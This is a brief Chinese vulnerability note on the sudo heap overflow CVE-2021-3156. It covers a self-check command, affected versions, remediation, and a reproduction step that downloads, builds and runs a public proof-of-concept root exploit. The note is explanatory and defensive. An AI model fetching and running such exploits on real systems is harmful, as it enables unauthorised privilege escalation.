 # 漏洞概述

攻击者在**取得服务器基础权限的情况下**，可以利用sudo基于堆的缓冲区溢出漏洞，获得root权限。

用户可以使用如下方法进行自查：

以非root用户登录系统，并使用命令`sudoedit -s /`

- 如果响应一个以`sudoedit:`开头的报错，那么表明存在漏洞。

- 如果响应一个以`usage:`开头的报错，那么表明补丁已经生效。

### 影响版本

```plain
sudo: 1.8.2 - 1.8.31p2
sudo: 1.9.0 - 1.9.5p1
```
### 漏洞等级

高危

# 漏洞复现

在kali上进行测试：

```plain
wget https://haxx.in/CVE-2021-3156_nss_poc_ubuntu.tar.gz
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich <target_number>
```
![](https://raw.githubusercontent.com/oxff644/little-bread/master/20210202185701.png?token=AOYIZI7JIWRET6CG4G6IHK3ADEYD4)

![](https://raw.githubusercontent.com/oxff644/little-bread/master/20210202185719.png?token=AOYIZI4KC7F7XLFMTVUVWSTADEYFC)



# 修复建议

1. 针对Ubuntu
```plain
wget https://www.sudo.ws/dist/sudo-1.9.5p2.tar.gz
```
2. centos下
```plain
sudo yum -y update sudo
```


